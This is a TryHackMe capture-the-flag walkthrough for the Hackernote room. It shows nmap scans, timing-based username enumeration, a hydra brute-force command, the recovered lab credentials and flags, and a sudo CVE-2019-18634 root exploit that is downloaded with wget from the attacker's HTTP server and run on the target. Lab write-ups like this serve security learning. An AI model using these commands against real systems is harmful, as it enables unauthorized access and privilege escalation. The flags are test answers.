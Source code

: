 ```yaml
---
title:  Hackernote
name: CYB3RM3 | Hackernote
date:   2021-09-05 13:46:58
categories: [TryHackMe, Web]
tags: [Web]
---
```

A custom webapp, introducing username enumeration, custom wordlists and a basic privilege escalation exploit.

THM Room [https://tryhackme.com/room/hackernote](https://tryhackme.com/room/hackernote)

## TASK 1 : Reconnaissance <a name="Reconnaissance"></a>

### Which ports are open? (in numerical order)

```console
root@ip-10-10-127-246:~# nmap -sC -vv 10.10.127.143  
 
[...]  
PORT  STATE SERVICE  REASON  
22/tcp open ssh    syn-ack ttl 64  
| ssh-hostkey:  
| 2048 10:a6:95:34:62:b0:56:2a:38:15:77:58:f4:f3:6c:ac (RSA)  
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0njoI1MTN18O8+mhh7M4EpPVA2+5B3OsOtfyhpjYadmUYmS1LgxRSCAyUNFP3iKM7vmqbC9KalD6hUSWmorDoPCzgTuLPf6784OURkFZeZMmC3Cw3Qmdu348Vf2kvM0EAXJmcZG3Y6fspIsNgye6eZkVNHZ1m4qyvJ+/b6WLD0fqA1yQgKhvLKqIAedsni0Qs8HtJDkAIvySCigaqGJVONPbXc2/z2g5io+Tv3/wC/2YTNzP5DyDYI9wL2k2A9dAeaaG51z6z02l6F1zGzFwiwrFP+fopEjhQUa99f3saIgoq3aPOJ/QufS1SiZc6AqeD8RJ/6HWz10timm5A+n4J  
| 256 6f:18:27:a4:e7:21:9d:4e:6d:55:b3:ac:c5:2d:d5:d3 (ECDSA)  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHKcOFLvSTrwsitMygOlMRDEZIfujX3UEXx9cLfrmkYnn0dHtHsmkcUUMc1YrwaZlDeORnJE5Z/NAH70GaidO2s=  
| 256 2d:c3:1b:58:4d:c3:5d:8e:6a:f6:37:9d:ca:ad:20:7c (EdDSA)  
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGFFNuuI7oo+OdJaPnUbVa1hN/rtLQalzQ1vkgWKsF9z  
80/tcp open http   syn-ack ttl 64  
| http-methods:  
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-title: Home - hackerNote  
8080/tcp open http-proxy syn-ack ttl 64  
| http-methods:  
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-open-proxy: Proxy might be redirecting requests  
|_http-title: Home - hackerNote  
[...]  
``` 

Answer : 22,80,8080

### What programming language is the backend written in ?

```console
root@ip-10-10-127-246:~# nmap -sV -sC -vv 10.10.127.143  
  
[...]  
80/tcp open http  syn-ack ttl 64 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)  
| http-methods:  
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-title: Home - hackerNote  
8080/tcp open http  syn-ack ttl 64 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)  
| http-methods:  
|_ Supported Methods: GET HEAD POST OPTIONS  
|_http-open-proxy: Proxy might be redirecting requests  
|_http-title: Home - hackerNote  
[...]
```

Answer : go

## TASK 2 : Investigate <a name="Investigate"></a>

### Create your own user account
No answer : created user john and password 12345 with hint 12345

### Log in to your account
No answer  

### Try and log in to an invalid user account
No answer  

### Try and log in to your account, with an incorrect password.
No answer. Delay before error  

### Notice the timing difference. This allows user enumeration
No answer. Wrong username is returning "invalid username or password" immediately and clicking "i forgot my password" with a valid username show the hint for this usernme.

## TASK 3 : Exploit <a name="Exploit"></a>

### Try to write a script to perform a timing attack.
No answer. Download script from [https://raw.githubusercontent.com/NinjaJc01/hackerNoteExploits/master/exploit.py](https://raw.githubusercontent.com/NinjaJc01/hackerNoteExploits/master/exploit.py)

### How many usernames from the list are valid ?

Run the script downloaded.  
Answer : 1

### What are/is the valid username(s) ?
    

Answer : james

## TASK 4 : Attack Passwords <a name="AttackPasswords"></a>

### Form the hydra command to attack the login API route
    
```shell
hydra -l james -P wordlist.txt 10.10.127.143 http-post-form "/api/user/login:username=^USER^&amp;password=^PASS^:F=incorrect" -V
```

### How many passwords were in your wordlist?
    
Form the wordlist.txt from known favorites color and number (hint from james "forgotten password") with HASHCAT-UTILS and the two files numbers.txt and colors.txt :

```console
cp numbers.txt /opt/hashcat-utils/src  
cp colors.txt /opt/hashcat-utils/src  
cd /opt/hashcat-utils/src  
./combinator.bin colors.txt numbers.txt &gt; wordlist.txt  
wc wordlist.txt  
180
```

Answer : 180

### What was the user's password?  
I do a cluster bomb attack with BURPSUITE and the wordlist.txt and i get the result blue7 password match with a different length.

Answer : bleu7

### Login as the user to the platform
No answer but James let us a note as reminder with his SSH password : dak4ddb37b

### What's the user's SSH password?
Answer : dak4ddb37b

### Log in as the user to SSH with the credentials you have.
```console
ssh james@10.10.127.143
```

No answer

### What's the user flag?  
```console
cat user.txt  
thm{56911bd7ba1371a3221478aa5c094d68}
```

Answer :thm{56911bd7ba1371a3221478aa5c094d68}

## TASK 5 : Escalate <a name="Escalate"></a>

### What is the CVE number for the exploit? 
Reading the texttell us the recent CVE is "pwdfeedback" and googling"pwdfeedback" return theCVE-2019-18634.  
Answer :CVE-2019-18634

### Find the exploit from [https://github.com/saleemrashid/](https://github.com/saleemrashid/) and download the files.

```console
cd Deskstop  
mkdir cve-2019-18634  
cd cve-2019-18634  
git clone https://github.com/saleemrashid/sudo-cve-2019-18634
```

No answer

### Compile the exploit from Kali linux.
    
```console
cd sudo-cve-2019-18634  
make
```

No answer

### SCP the exploit binary to the box.
    

Copy and save this code to the KALI where you downloaded the exploit :

```python
import http.server  
import socketserver  
PORT = 8888  
Handler = http.server.SimpleHTTPRequestHandler  
with socketserver.TCPServer(("", PORT), Handler) as http:  
  print("serving at port", PORT)  
  http.serve_forever()
```

Run the above code :

```console
python server.py
```

No answer

### Run the exploit, get root.
    

On the SSH of James :

```console
cd /tmp  
wget 10.10.127.246:8888/exploit  
chmod +x exploit  
./exploit  
id  
uid=0(root)
```

No Answer

### What is the root flag?
    
```console
cat /root/root.txt  
thm{af55ada6c2445446eb0606b5a2d3a4d2}
```

Answer : thm{af55ada6c2445446eb0606b5a2d3a4d2}

[test]:      http://jekyllrb.com